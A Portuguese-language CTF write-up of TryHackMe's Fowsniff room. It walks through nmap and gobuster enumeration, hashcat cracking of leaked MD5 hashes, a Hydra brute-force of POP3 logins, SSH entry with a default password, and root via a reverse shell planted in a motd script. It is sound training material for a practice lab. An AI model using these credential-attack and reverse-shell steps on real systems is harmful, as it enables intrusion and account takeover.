


# Fowsniff CTF Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)
> 
> **Dificuldade:** `Fácil`
> 
> **Data de Resolução:** `2026/06/07`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Fowsniff%20CTF/(PT-BR)%20FowsniffCTF%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Fowsniff%20CTF/(PT-BR)%20FowsniffCTF%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Extra](#Extra)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [Netcat](http://www.stearns.org/nc/)[^netcat]: programa basico de Unix responsável por ler e escrever dados através de conexões de rede. Em um contexto de pentesting, o `netcat` é uma ótima ferramenta para criar conexões com os sistemas na rede e ter acesso a eles de forma remota, permitindo técnicas como a de reverse shell, muito importante também nos contextos de CTF.
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)[^hydra]: ferramenta de quebra de login que suporta diversos protocolos, dentre eles o SSH. Essa ferramenta torna possível mostrar o quão fácil pode ser ganhar acesso remoto a um sistema sem a devida autorização. A hydra é, portanto, uma ótima ferramenta para descobrir a senha em sistemas e pode testar várias senhas, dado um arquivo, permitindo assim uma força bruta com senhas mais comuns, por exemplo, sendo bem útil também para contextos de CTFs, em que o arquivo com senhas para testar pode estar escondido no sistema. 
- [hashcat](https://hashcat.net/)[^hashcat]: ferramenta de recuperação de senhas, usada para atacar algoritmos de hash. Ela pode ser usada em diversos modos, como força bruta (podendo ser auxiliado por uma máscara), lista de dicionário (como a lista de senhas vazada da RockYou[^rockyou]), dentre outros. 

## Resolução do CTF

O CTF Fowsniff, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema de uma empresa fictícia para achar a flag de usuário e de root. Neste CTF foi necessário procurar por informações na internet sobre um vazamento fictício de senhas para poder explorar um serviço de emails. 

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap -T5 -A vul.net
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 18:50 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: USER TOP UIDL SASL(PLAIN) AUTH-RESP-CODE CAPA RESP-CODES PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ more LOGIN-REFERRALS have post-login SASL-IR listed capabilities IMAP4rev1 ENABLE AUTH=PLAINA0001 Pre-login OK IDLE
#[...]
```

em que percebi que o sistema era baseado em Apache, com as portas abertas sendo 22 (ssh), 80 (http) e um sistema de email com as portas 110 (pop3) e 143 (imap). Como o serviço http estava disponível, decidi explorá-lo inicialmente. Enquanto eu abria a página web, já decidi executar um comando no `gobuster`[^gobuster], para adiantar a enumeração de diretórios:

```sh
gobuster dir -u http://vul.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50  
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). A porta foi especificada para 8080, pois era onde o serviço http estava aberto (caso contrário, iria para o padrão da porta 80 e não funcionaria. O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 303] [--> http://vul.net/images/]
index.html           (Status: 200) [Size: 2629]
security.txt         (Status: 200) [Size: 459]
assets               (Status: 301) [Size: 303] [--> http://vul.net/assets/]
README.txt           (Status: 200) [Size: 1288]
robots.txt           (Status: 200) [Size: 26]
LICENSE.txt          (Status: 200) [Size: 17128]
server-status        (Status: 403) [Size: 295]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Os resultados finais dessa enumeração serão discutidos durante a fase de exploração, pois comecei a exploração ao mesmo tempo que executei o `gobuster`[^gobuster].
### Exploração

Ao acessar `http://vul.net`, deparei-me com uma página informando que os servidores de uma empresa fictícia, "Fowsniff", haviam sido comprometidos, indicando que provavelmente os usuários e senhas já estariam publicados:



Com os resultados do `gobuster`[^gobuster], encontrei diretórios contendo arquivos, mas nenhum deles continha informações interessantes. Em `http://vul.net/security.txt`, o hacker deixou uma mensagem: 



Novamente, nada de relevante. Nesse momento, seria necessário acessar o twitter `@fowsniffcorp` que também havia sido invadido pelo hacker, no qual um link para um arquivo contendo as senhas no pastebin, mas este arquivo não está mais disponível. A página do CTF no TryHackMe avisou isso na dica, indicando que o arquivo poderia ser acessado no github ([fowsniff.txt](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt)). O arquivo continha alguns pares de emails e hashes de senhas, e também informava que todos os hashes estavam em `MD5`. Assim, usei o seguinte comando no `hashcat`[^hashcat] para todos os hashes:

```bash
hashcat -a 0 -m 0 '<hash>' /usr/share/wordlists/rockyou.txt
```

em que `-a` indica o modo de ataque (em todos os casos fiz ataques com dicionário, que é o argumento `0`), `-m` indica o tipo do hash (nesse caso, `0`, para `MD5`) e a wordlist escolhida foi a `rockyou.txt`[^rockyou]. Para um dos emails, não foi possível desvendar a senha. Os resultados das quebras estão a seguir:

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 (<PASSWORD_1>)
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 (<PASSWORD_2>)
tegel@fowsniff:1dc352435fecca338acfd4be10984009 (<PASSWORD_3>)
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb (<PASSWORD_4>)
seina@fowsniff:90dc16d47114aa13671c697fd506cf26 (<PASSWORD_5>)
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd (exhausted)
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b (<PASSWORD_6>)
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 (<PASSWORD_7>)
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e (<PASSWORD_8>)
```

Assim, coloquei todos os usuários (apenas o nome, sem o resto do email) em um arquivo `users.txt` e todas as senhas que encontrei em um arquivo `passwords.txt` e fiz um ataque ao serviço de email com o seguinte comando do `hydra`[^hydra]:

```bash
hydra -L users.txt -P passwords.txt pop3://vul.net
```

Esse comando essencialmente testa o login (`-L`) para uma lista de usuários e com um arquivo contendo senhas (`-P`) `passwords.txt` no serviço pop3 do ip dado. O resultado que obtive foi:

```sh
hydra -L users.txt -P passwords.txt pop3://vul.net
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-07 19:38:55
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://vul.net:110/
[110][pop3] host: vul.net   login: <USER_EMAIL>   password: <PASSWORD_EMAIL>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 19:39:49

```

 Com isso, consegui acessar o email de `<USER_EMAIL>`:
 
```sh
telnet vul.net 110                                   
Trying <TARGET_IP>...
Connected to vul.net.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user <USER_EMAIL> 
+OK
pass <PASSWORD_EMAIL>
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
```

A primeira mensagem (`1662`) vinha de `A.J Stone`, que avisava sobre o vazamento de senhas e da nova senha temporária para o ssh dos usuários, `<PASSWORD_TEMP>`, pedindo para que todos se encontrassem com ele para mudar as suas senhas, enquanto que a segunda (`1280`) mostrava que Skyler, quem enviou esse email, passou mal e voltou para casa antes, sem ler o email de Stone que pedia para mudar as senhas com ele. Assim, tendo o email de Skyler (`<USER_SSH>`), decidi testar acessar o serviço do ssh, e fui bem sucedido:

```sh 
$ ssh -p 22 <USER_SSH>@vul.net   
<USER_SSH>@vul.net's password: <PASSWORD_TEMP>

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
<USER_SSH>@fowsniff:~$ whoami
<USER_SSH>
```

No diretório de `<USER_SSH>` em si não havia nada de interessante:

```sh
<USER_SSH>@fowsniff:~$ ls
Maildir  term.txt
<USER_SSH>@fowsniff:~$ cat term.txt
I wonder if the person who coined the term "One Hit Wonder" 
came up with another other phrases.
<USER_SSH>@fowsniff:~$ 
```

O roteiro no TryHackMe indicava que, após entrar no serviço ssh era necessário escalar privilégios, então foi o próximo passo que tomei.
### Escalação de Privilégios

Para escalar privilégios e encontrar a flag em `/root`, era necessário encontrar alguma vulnerabilidade. Para isso, testei no terminal as permissões do usuário:

```sh
<USER_SSH>@fowsniff:~$ sudo -l
[sudo] password for <USER_SSH>: 
Sorry, user <USER_SSH> may not run sudo on fowsniff.
```

Sem ter permissões para executar `sudo -l`, tentei encontrar arquivos que o grupo do usuário poderia executar:

```sh
<USER_SSH>@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
/home/<USER_SSH>/.cache/motd.legal-displayed
/home/<USER_SSH>/Maildir/dovecot-uidvalidity
/home/<USER_SSH>/Maildir/dovecot.index.log
/home/<USER_SSH>/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/<USER_SSH>/Maildir/dovecot-uidlist
/home/<USER_SSH>/Maildir/dovecot-uidvalidity.5aa21fac
/home/<USER_SSH>/.viminfo
# [...]
```

o arquivo `cube.sh` parecia interessante, sendo um script de shell, que continha a seguinte instrução: 

```sh
<USER_SSH>@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

Exatamente a imagem que aparecia ao iniciar o serviço ssh. Observando a pasta `/etc/update-motd.d/`, a qual contém scripts que são executados como root toda vez que um usuário entra em sua conta no ssh. Procurando um pouco, encontrei o arquivo `/etc/update-motd.d/00-header` continha uma linha executava o script acima. Colocando o comando em python para uma reverse shell[^reverseshell] fornecido pelo CTF, abri uma escuta com o `netcat`[^netcat]:

```bash 
netcat -lnvp 1234 
```

contendo os seguintes argumentos argumentos:
- `-l`: modo de escuta, justamente para receber as informações do terminal do outro sistema
-  `-n`: desativar o DNS, uma vez que já temos o IP direto, não é necessário ficar resolvendo nomes, deixando o netcat mais rápido
-  `-v`: modo verboso, para ter mais informações, no caso de problemas, por exemplo
-  `-p`: indica a porta de escuta, no caso `1234

Assim, reiniciei a sessão ssh e o script para reverse shell foi executado com sucesso:

```
# whoami
root
# cd /root
```

Ao listar os conteúdos de root, encontrei o arquivo, `flag.txt`, que continha a bandeira do CTF:

```
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

e finalizei o CTF.
## Conclusão

O CTF Fowsniff permitiu explorar um vazamento de usuários e hashes, a partir do qual foi possível acessar o email de um dos usuários e encontrar uma senha padrão que deveria ser mudada. Com isso, consegui acessar o serviço ssh de um dos usuários e encontrar um script que era executado de forma privilegiada, de modo que foi possível abrir uma shell reversa e obter privilégios de root. Assim, consegui achar a flag desse desafio.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^netcat]: Netcat: [http://www.stearns.org/nc/](http://www.stearns.org/nc/)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)
[^hydra]: Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
[^john]: JohnTheRipper: https://www.openwall.com/john/
[^reverseshell]: Sobre reverse shells: [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling)
[^rockyou]: Wordlist de senhas (RockYou): [https://weakpass.com/wordlists/rockyou.txt](https://weakpass.com/wordlists/rockyou.txt)